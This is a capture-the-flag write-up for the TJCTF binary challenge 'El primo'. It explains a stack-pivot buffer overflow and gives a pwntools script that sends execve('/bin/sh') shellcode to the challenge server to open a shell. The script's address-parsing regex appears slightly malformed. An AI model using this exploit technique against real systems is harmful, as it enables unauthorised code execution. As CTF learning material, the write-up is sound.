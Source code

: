# El primo

There's no NX, AND a gets call. On top of this, the program sends us the buffer address. A simple ret to shellcode, right?

Wrong, in fact. We have to buffer overflow from main, which makes things more difficult.
Instead of the classic leave ; ret, it pops a value into ecx, then loads ecx - 4 into esp.
This removes our classic buffer overflow where we change EIP. Instead, we must stack pivot.

We have control of ESP. When you call ret, the program jumps to the address stored at ESP.
We can set esp to the address of the buffer.
Then, we change the beginning of our buffer to be the address of our shellcode.I put the shellcode after the esp.

We can use pattern.py to figure out the amount of bytes until esp, which is 32.

#### NOTE! it subtracts 4 from our chosen esp value, so we must take care of this.
I created custom shellcode that had to have the address of a string /bin/sh which I also put in the input.
```python
from pwn import *
import re
NUM_TO_ESP = 32
p = remote('p1.tjctf.org', 8011)
p.recvline()
output = p.recvline().decode()
bufaddr = int(re.findall("hint: (,*)", output)[0],16)
shellcode = asm(f"mov ebx,{hex(bufaddr + 4)} ; mov ecx,0 ; mov edx,0 ; mov eax,0xb ; int 0x80") 
start = flat(bufaddr + 36, b"/bin/sh\x00")
espval = bufaddr + 4
payload = start
payload += b'A' * (NUM_TO_ESP - len(payload))
payload += p32(espval)
payload += shellcode
p.sendline(payload)
p.interactive()
```
